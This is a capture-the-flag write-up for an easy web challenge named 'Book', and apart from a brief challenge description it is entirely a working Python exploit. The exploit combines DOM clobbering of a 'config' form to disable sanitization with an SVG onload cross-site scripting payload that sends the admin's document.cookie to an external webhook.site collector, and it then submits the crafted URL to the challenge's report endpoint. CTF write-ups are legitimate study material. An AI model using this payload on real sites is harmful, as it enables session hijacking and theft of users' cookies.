# Book
- Author: Vincent55
- Category: Web
- Difficulty: Easy

Just a book site, you can create your own boook and share it to admin!


## exploit

```python
import requests
import base64
import urllib.parse


url = "http://172.31.0.2:8000/"
attack_server = "https://webhook.site/ffeb0575-f4e4-4280-9179-206578101d63"

title = '<form id="config"><input value="sanitize" name="DEBUG"></form>'
title = urllib.parse.quote(base64.b64encode(title.encode()).decode())

content = f'<svg/onload=fetch("{attack_server}/?flag="+document.cookie)></script>'
content = urllib.parse.quote(base64.b64encode(content.encode()).decode())

payload = f"http://book/book?title={title}&content={content}"

print(payload)

requests.post(
    url + "report",
    data={
        "url": payload,
    },
)

# you will get flag in log

```
